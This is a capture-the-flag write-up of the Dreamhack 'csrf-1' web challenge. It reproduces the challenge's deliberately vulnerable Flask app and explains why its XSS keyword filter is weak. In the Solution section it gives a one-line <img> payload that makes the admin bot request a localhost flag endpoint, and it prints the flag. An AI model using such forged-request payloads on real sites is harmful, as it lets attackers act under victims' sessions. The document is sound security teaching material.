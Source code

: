 ```yaml
---
title: csrf-1
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, CSRF]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/26/](https://dreamhack.io/wargame/challenges/26/)

## Description

> It is a service that implements several functions and a bot that checks the entered URL.
>
> Use the CSRF vulnerability to obtain the flag.

### Attached

```py
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        print(str(e))
        # return str(e)
        return False
    driver.quit()
    return True


def check_csrf(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "").lower()
    xss_filter = ["frame", "script", "on"]
    for _ in xss_filter:
        param = param.replace(_, "*")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param", "")
        if not check_csrf(param):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", None)
    if text:
        memo_text += text
    return render_template("memo.html", memo=memo_text)


@app.route("/admin/notice_flag")
def admin_notice_flag():
    global memo_text
    if request.remote_addr != "127.0.0.1":
        return "Access Denied"
    if request.args.get("userid", "") != "admin":
        return "Access Denied 2"
    memo_text += f"[Notice] flag is {FLAG}\n"
    return "Ok"


app.run(host="0.0.0.0", port=8000)

```

## Analyzation

We want to get into ```./admin/notice_flag``` to get flag, but ```Access Denied```.

Check the source code
```py
@app.route("/admin/notice_flag")
def admin_notice_flag():
    global memo_text
    if request.remote_addr != "127.0.0.1":
        return "Access Denied"
    if request.args.get("userid", "") != "admin":
        return "Access Denied 2"
    memo_text += f"[Notice] flag is {FLAG}\n"
    return "Ok"
```

So ```request address``` must be ```127.0.0.1``` and ```userid``` must be ```"admin"```.

We need to send request
```
http://127.0.0.1:8000/admin/notice_flag?userid=admin
```

After requesting that url (somehow), the flag will be added to ```memo_text```. Just get into ```/memo``` and get flag

```py
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", None)
    if text:
        memo_text += text
    return render_template("memo.html", memo=memo_text)
```

Target is clear. Now we need a place to input that url. There it is, ```/flag```.

Get into ```/flag```, the request is
```
http://127.0.0.1:8000/vuln?param=xxx
```

Let's check what will happen when we send request
```py
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "").lower()
    xss_filter = ["frame", "script", "on"]
    for _ in xss_filter:
        param = param.replace(_, "*")
    return param
```

XSS Filter!

There is another way to bypass it: CSRF.

## Solution

```
http://127.0.0.1:8000/vuln?param=<img src="http://127.0.0.1:8000/admin/notice_flag?userid=admin">
```

The flag is
```
DH{11a230801ad0b80d52b996cbe203e83d}
```
